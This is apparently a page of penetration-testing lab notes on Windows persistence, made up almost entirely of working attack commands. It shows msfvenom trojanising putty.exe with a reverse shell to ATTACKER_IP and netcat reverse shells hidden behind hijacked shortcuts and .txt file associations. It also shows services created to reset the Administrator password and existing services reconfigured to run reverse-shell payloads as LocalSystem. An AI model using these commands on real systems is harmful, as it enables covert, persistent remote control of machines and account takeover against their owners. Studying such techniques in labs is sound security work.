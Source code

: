 ## Backdooring files

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Executable Files (for example, to replace a PuTTY shortcut pointing at C:\Program Files\PuTTY\putty.exe)
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
# Shorcut Files - edit shortcut target for this:
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
# Content of backdoor.ps1 (do not forget to leave the same shortcut icon)
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
C:\Windows\System32\calc.exe

# Hijacking File Associations (change what command is run when a filetype is open, applicable to .txt for example)
# Find ProgID (Data column txtfile for .txt) under HKLM\Software\Classes\.txt
# Go to HKLM\Software\Classes\txtfile\shell\open\command and modify its value for 
powershell -windowstyle hidden C:\windows\backdoor2.ps1 %1
# The content of the file C:\Windows\backdoor2.ps1 is
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
# Now anytime we open a .txt file on that machine, it will send a revshell
```
{% endcode %}

## Services

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Creating backdoor services
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
# In case we want to run a executable
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2

# Modifying existing services
# List all services, take a disabled one
sc.exe query state=all
# Query the service
sc.exe qc THMService3
There are three things we care about when using a service for persistence:
• The executable (BINARY_PATH_NAME) should point to our payload.
• The service START_TYPE should be automatic so that the payload runs without user interaction.
• The SERVICE_START_NAME, which is the account under which the service will run, should preferably be set to LocalSystem to gain SYSTEM privileges.
# Create the revshell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
# Reconfigure the service (we can query it later to confirm the changes)
sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
sc.exe start THMService3
```
{% endcode %}
